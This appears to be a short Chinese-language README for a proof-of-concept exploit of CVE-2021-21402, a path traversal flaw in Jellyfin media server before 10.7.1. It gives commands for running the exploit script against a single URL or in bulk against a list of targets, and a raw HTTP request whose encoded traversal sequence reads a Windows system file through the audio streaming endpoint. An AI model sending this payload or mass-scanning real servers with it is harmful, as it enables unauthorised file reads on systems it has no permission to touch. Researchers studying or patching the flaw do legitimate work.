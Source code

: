 ## 影响范围  

```http
Jellyfin < 10.7.1  
```

## POC

```bash
#单个url测试
python3 CVE-2021-21402.py -u http://127.0.0.1:1111

#批量检测
python3 CVE-2021-21402.py -f url.txt
```

## EXP

```
GET /Audio/1/hls/..%5C..%5C..%5C..%5C..%5C..%5CWindows%5Cwin.ini/stream.mp3/
Host:xxx.xxx.xxx.xxx
Content-Type: application/octet-stream
```